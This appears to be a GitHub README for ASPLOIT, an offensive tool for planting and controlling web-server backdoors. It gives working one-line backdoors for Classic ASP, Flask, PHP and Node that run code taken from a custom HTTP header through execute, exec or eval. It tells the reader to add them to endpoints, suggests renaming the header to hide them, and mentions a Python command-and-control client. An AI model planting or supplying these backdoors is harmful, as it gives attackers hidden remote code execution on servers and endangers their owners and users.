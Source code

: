 # ASPLOIT
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

# Backdoor
## Backdoor Genreation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
## Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
## Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
## PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Command and Controller
The C2 runs on Python. To start, run `main.py` in the `src` folder.

# Creating Custom Backdoors/Exploits
Coming soon.

# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).